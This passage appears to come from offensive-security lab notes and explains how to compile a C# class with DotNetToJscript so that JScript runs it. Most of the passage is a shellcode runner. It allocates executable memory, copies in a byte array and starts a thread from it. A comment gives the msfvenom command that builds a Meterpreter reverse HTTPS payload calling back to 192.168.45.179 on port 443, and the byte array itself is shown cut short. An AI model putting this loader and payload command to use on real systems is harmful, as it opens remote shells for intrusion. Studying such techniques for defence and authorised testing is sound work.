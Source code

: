 Open `DotNetToJscript` in Visual Studio > Open `TestClass.cs` under the `ExampleAssembly` project > Compile this as a `.dll` assembly.

`Jscript` will execute the content of the `TestClass` method, which is inside the `TestClass` class.

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
		//MessageBox.Show("Test", "Test", MessageBoxButtons.OK, MessageBoxIcon.Exclamation);

		// msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.179 LPORT=443 EXITFUNC=thread -f csharp
        byte[] buf = new byte[722] {0x06, 0xb2, 0x79, 0x1e, 0x0a, 0x12, 0x36, 0xfa, ..., 0x2f};

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
	}

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```

`DotNetToJscript` converts the assembly into a format that `Jscript` can execute.
